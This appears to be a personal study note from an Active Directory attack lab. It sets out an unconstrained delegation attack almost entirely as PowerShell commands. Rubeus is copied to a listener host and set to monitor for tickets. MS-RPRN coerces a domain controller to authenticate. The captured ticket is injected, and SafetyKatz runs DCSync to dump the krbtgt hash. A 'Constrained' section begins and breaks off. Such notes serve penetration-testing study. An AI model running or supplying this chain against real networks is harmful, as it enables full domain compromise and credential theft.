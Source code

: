 ### **Unconstrained**
Use rubeus on the server to run on listener mode
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\<LISTENER MACHINE>\C$\Users\Public\Rubeus.exe /Y
```
log in the server
```powershell
winrs -r:<LISTENER MACHINE> cmd
```
Launch rubeus
```powershell
C:\Users\Public\Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```
![[Pasted image 20231025163953.png]]
Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)
```powershell
C:\AD\Tools\MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```
Rubeus is triggered
![[Pasted image 20231025164204.png]]
Copy the ticket and use it with rubeus on the local machine
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:<TICKET>
```
![[Pasted image 20231025164640.png]]
And launch safetykatz to dcsync
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<MACHINE>\krbtgt" "exit"
```

### **Constrained**
With the account with the permission's hash